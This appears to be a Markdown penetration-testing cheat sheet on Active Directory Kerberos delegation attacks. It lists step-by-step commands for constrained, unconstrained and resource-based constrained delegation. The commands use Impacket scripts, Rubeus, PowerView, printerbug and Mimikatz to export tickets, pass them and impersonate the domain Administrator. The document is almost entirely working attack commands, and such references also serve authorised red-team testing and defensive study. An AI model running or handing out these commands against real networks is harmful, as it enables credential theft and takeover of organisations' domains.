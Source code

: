 
## 🔍 **Advanced Techniques**

### **1. Constrained Delegation**

#### **Linux:**
```bash
# Find delegation
GetUserSPNs.py -dc-ip DC_IP domain.com/username:password -request-user TARGET_USER

# Exploit
getST.py -spn SERVICE/TARGET -impersonate Administrator domain.com/SERVICE_ACCOUNT:password
export KRB5CCNAME=Administrator.ccache
```

#### **Windows:**
```powershell
# Rubeus
.\Rubeus.exe s4u /user:SERVICE_ACCOUNT /rc4:HASH /impersonateuser:Administrator /msdsspn:SERVICE/TARGET /ptt
```

### **2. Unconstrained Delegation**

#### **Linux:**
```bash
# Monitor for tickets
python printerbug.py domain.com/username:password@TARGET_IP DC_IP
# Extract TGT from memory
```

#### **Windows:**
```powershell
# PowerView
Get-DomainComputer -Unconstrained

# Mimikatz
sekurlsa::tickets /export
kerberos::ptt ticket.kirbi
```

### **3. Resource-Based Constrained Delegation (RBCD)**

#### **Linux:**
```bash
# Add computer account
addcomputer.py -computer-name 'FAKE$' -computer-pass 'Password123!' domain.com/username:password -dc-ip DC_IP

# Set delegation
rbcd.py -delegate-from 'FAKE$' -delegate-to 'TARGET$' -action write domain.com/username:password -dc-ip DC_IP

# Get ticket
getST.py -spn 'cifs/TARGET.domain.com' -impersonate Administrator domain.com/'FAKE$':'Password123!' -dc-ip DC_IP
```
